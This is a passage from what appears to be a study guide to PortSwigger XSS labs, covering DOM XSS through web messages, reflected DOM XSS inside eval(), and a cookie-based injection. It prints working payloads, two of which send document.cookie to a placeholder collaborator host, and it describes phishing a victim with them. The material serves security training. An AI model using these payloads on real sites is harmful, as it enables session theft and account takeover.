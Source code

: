 > In the `source code` we _**identify**_ the call using `addEventListener` and an element id `ads` being referenced.

> The `fetch` function enclose the collaborator target inside **back ticks**, and when the iframe loads on the victim browser, the postMessage() method sends a web message to their home page.

```html
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://COLLABORATOR.com?collector=`+btoa(document.cookie))>','*')">
```

> Replacing the Burp Lab payload `print()` with `fetch()` in the above code allow attacker to steal the victim session cookie.

[PortSwigger Lab: DOM XSS using web messages](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)

#### Reflected DOM XSS

> In the **Search** function a Reflected DOM-XSS vulnerability is _**identified**_ using DOM Invader as being inside an `eval()` function.

> _**Identify**_ that the search JavaScript `source code` on the target, the string is reflected in a JSON response called search-results. From the Site Map, open the `searchResults.js` file and notice that the JSON response is used with an `eval()` function call.

> Testing `\"-alert(1)}//` payload we successfully escape the `eval()`. The attacker then craft an exploit phishing link to the victim with a cookie stealing payload hosted on exploit server.\
> Above payload validate that the backslash **\\** is not sanitized, and the JSON data is then send to `eval()`. Backslash is not escaped correctly and when the JSON response attempts to escape the opening double-quotes character, it adds a **second** backslash. The resulting double-backslash causes the escaping to be effectively **cancelled out**.

```JavaScript
\"-fetch('https://COLLABORATOR.com?reflects='+document.cookie)}//
```

> In the above payload every character is URL encoded and used as the search parameter value. This target do not have an exploit server, so I hosted my own `python3 -m http.server 80` web service and save the `index.html` file that contain the `location` target URL between `<script>` tags.

> In the image above, I create insecure POC cookie value in my browser before simulating a victim user clicking on `http://localhost/index.html` link, same as Burp Exploit server, that is the same as the Deliver exploit to victim function.

[PortSwigger Lab: Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)

#### DOM-XSS LastviewedProduct Cookie

> Identify the cookie `lastViewedProduct` is set to the last URL visited under the product page. In the `source code` we identify the injection script tags where `window.location` is set.

> Testing the escape out of of the script string for the value of **document.location** using `/product?productId=1&'>fuzzer`. Note that **document.location** value cannot be URL encoded.

```html
<iframe src="https://TARGET.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://TARGET.net';window.x=1;">
```
